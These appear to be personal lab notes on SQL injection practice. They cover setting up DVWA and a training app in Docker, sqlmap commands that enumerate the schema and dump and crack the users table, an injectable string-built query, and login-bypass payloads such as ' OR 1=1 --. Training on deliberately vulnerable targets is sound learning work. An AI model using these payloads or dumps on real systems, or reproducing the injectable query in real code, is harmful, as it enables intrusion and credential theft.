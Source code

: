 # directions for sqlmap

## installation
- sudo apt install -y docker.io
- sudo systemctl enable docker --now
- sudo usermod -aG docker $USER
- newgrp docker
- docker run --rm -it -p 80:80 vulnerables/web-dvwa

it is done!!!

## exploitation
sqlmap --url "" --cookie "" --schema --batch
- make sure you include PHPSESSID and security:low for the cookies
sqlmap --url "" --cookie "" --columns -T users --batch
- list the users, shows us the password column
sqlmap --url "" --cookie "" --dump -T users --batch
- uses a dictionary attack for you!

# test injection scripts
connection.query(`SELECT * FROM logins WHERE name="${req.body.username}" AND password="${req.body.password}";`,

- admin
- " OR 1 = 1 OR ""="

# the php server 
https://github.com/nicolesteffens0/sqlinjection-training-app
- clone repo
- docker-compose up
- (optional) stumble around for an hour trying to find what port the server is on 
    - (optional) fail to find the walkthough and use "netstat -ant" to find it yourself

WORKING ATTACKS
- ' OR 1=1 -- //
goes to admin
